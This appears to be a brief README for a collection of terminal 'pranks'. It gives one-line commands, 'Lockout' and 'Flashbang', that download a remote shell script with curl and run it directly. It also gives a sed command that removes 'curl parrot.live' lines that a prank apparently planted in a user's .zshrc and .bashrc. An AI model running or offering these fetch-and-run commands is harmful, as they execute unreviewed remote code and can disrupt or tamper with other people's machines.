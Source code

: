 # Lockout
    source <(curl https://raw.githubusercontent.com/Heixier/pranks/refs/heads/main/lockout/lockout.sh)

# Flashbang

    bash <(curl https://raw.githubusercontent.com/Heixier/pranks/refs/heads/main/flashbang/flashbang.sh)

# Got parroted?
    sed -i '/curl parrot.live/d' ~/.zshrc && sed -i '/curl parrot.live/d' ~/.bashrc
